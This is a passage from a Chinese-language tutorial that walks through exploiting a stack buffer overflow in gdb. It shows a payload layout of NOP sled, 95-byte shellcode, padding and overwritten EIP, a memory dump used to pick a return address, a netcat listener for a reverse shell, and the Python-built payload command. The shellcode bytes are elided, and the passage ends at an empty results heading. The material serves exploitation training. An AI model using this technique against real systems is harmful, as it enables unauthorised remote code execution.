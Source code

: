 需要关心的是`shellcode`的长度是`95 bytes`。这意味着载荷要发生一些改变。

|    **NOP**    |     **124**（可变 不绝对）     |
| :-----------: | :---------------------: |
| **Shellcode** |         **95**          |
|  **Buffer**   | **1036 - 95-124 = 817** |
|    **EIP**    |          **4**          |
查看内存：`x/2000xb $esp+500`

```shell

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>

```

注意到：`0xffffd65c`上就有`shellcode`开始了。


## 地址跳转的确定

我们需要一个包含 `NOP` 指令的内存地址，以便让 `EIP` 跳转到该地址。该内存地址不能包含我们之前发现的任何恶意字符。在全都是`0x90`的行里挑一个你喜欢的吧。我们就用`0xffffd64c`为例。注意，这是我自己电脑的内存地址。你应该使用的内存地址大概率不是`0xffffd64c`，你需要自己确定。

|      NOP      |         **100**         |       ("\x90")*100       |
| :-----------: | :---------------------: | :----------------------: |
| **Shellcode** |         **95**          |   **("\xda\xca")...**    |
|  **Buffer**   | **1036 - 95-100 = 841** |     *("\x55") * 841*     |
|    **EIP**    |          **4**          | **("\x4c\xd6\xff\xff")** |

## 启动netcat监听

输入以下命令。`7777`是`shellcode`中指定的，需要与`LPORT`一致。

```shell
nc -nlvp 7777
```

## 执行


```shell
run $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55"*841 + b"\xda\xca\xba...\x5a\x22\xa2" + b"\x4c\xd6\xff\xff" )')
```


### 收到

